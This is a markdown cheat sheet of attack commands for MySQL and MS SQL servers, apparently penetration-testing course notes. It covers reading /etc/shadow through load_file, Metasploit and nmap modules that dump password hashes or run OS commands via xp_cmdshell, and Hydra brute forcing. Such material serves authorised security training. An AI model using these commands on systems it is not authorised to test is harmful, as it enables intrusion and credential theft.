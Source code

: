 # SQL

## mysql
```
mysql -h [IP-ADDRESS] -u [USERNAME]
```
```
show databases;
```
```
use [DATABASE];
```
```
show [TABLES];
```
```
select count(*) from [TABLE];
```
```
select * from [TABLE];
```
```
select load_file("/etc/shadow");
```
```
help
```

## Metasploit

### mysql
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```
```
use auxiliary/scanner/mysql/mysql_hashdump
```
```
use auxiliary/scanner/mysql/mysql_login
```
show advanced options:
```
advanced
```

### MS SQL
```
use auxiliary/scanner/mssql/mssql_login
```
```
use auxiliary/scanner/admin/mssql/mssql_enum
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_logins
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_exec
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_domain_accounts
```

## nmap
### mysql
* --script=mysql-empty-password
* --script=mysql-info
* --script=mysql-users --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-databases --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-variables --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-dump-hashes --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-query --script-args="query='select * from [TABLE];',username='[USERNAME]',password='[PASSWORD]'"
* --script=mysql-audit --script-args="mysql-audit.username='[USERNAME]',mysql-audit.password='[PASSWORD]',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

### MS SQL
* --script ms-sql-info
* --script ms-sql-ntlm-info --script-args mssql.instance-port=[PORT]
   * Default port for MS SQL is 1433 
* --script ms-sql-brute --script-args userdb=[WORDLIST-PATH],passdb=[WORDLIST-PATH]
* --script ms-sql-empty-password
* --script ms-sql-query --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-query.query="SELECT * FROM [TABLE]" -oN [OUTPUT-FILE]
* --script ms-sql-dump-hashes --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD]
* --script ms-sql-xp-cmdshell --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-xp-cmdshell.cmd="[COMMAND-YOU-WANT-TO-RUN]"


## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] mysql
```

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
